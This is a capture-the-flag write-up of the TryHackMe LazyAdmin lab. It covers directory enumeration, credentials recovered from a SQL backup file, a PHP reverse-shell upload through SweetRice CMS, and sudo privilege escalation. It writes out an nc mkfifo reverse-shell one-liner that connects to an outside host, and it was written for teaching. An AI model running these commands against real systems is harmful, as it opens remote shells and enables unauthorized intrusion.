# LazyAdmin -- TryHackMe (write-up)

**Difficulty:** Easy
**Box:** LazyAdmin (TryHackMe)
**Author:** dkrxhn
**Date:** 2025-08-14

---

## TL;DR

### Directory busting found SweetRice CMS. SQL backup file contained creds. Uploaded PHP shell via ads section. Privesc through a writable Perl script that ran a reverse shell with sudo.
---

## Target info

- Host: `10.10.4.53`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration

```bash
feroxbuster -u http://10.10.4.53 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```









## Exploitation

Found the login page needs creds:



Found MySQL backup file:



```bash
cat mysql_bakup_20191129023059-1.5.1.sql
```





- `Password123`

Logged in at `http://10.10.4.53/content/as/` with `manager:Password123`.

Per 40700.html, can upload files via the ads section. Uploaded pentestmonkey PHP reverse shell:

```
http://10.10.4.53/content/inc/ads/shell.php
```



**MySQL creds from the box worked but were a rabbit hole.**

## Privilege escalation

```bash
sudo -l
```



Found `backup.pl`:





- `backup.pl` calls `copy.sh` which contains a `nc mkfifo` reverse shell
- We have read/write permissions on `copy.sh`

Since vim/nano don't exist on the machine, used echo:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.64.37 6969 >/tmp/f" > copy.sh
```

Set listener and ran:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

Root shell caught.

---

## Lessons & takeaways

- SQL backup files in web directories often contain credentials
- SweetRice CMS allows file upload through the ads section
- When vim/nano aren't available, use echo to overwrite files
- Check what scripts a sudo-allowed binary calls -- the called script may be writable
---
